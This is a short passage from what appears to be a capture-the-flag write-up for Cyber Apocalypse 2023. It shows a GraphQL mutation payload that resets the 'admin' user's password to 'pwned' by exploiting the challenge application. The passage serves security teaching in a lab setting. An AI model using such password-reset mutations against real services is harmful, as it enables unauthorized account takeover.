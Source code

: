 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318224414.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318224419.png)

It worked!!!

**With that said, we can update user `admin`'s password!! (Username was found from `entrypoint.sh`)**
```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "admin",
        "password": "pwned"
    }
}
```

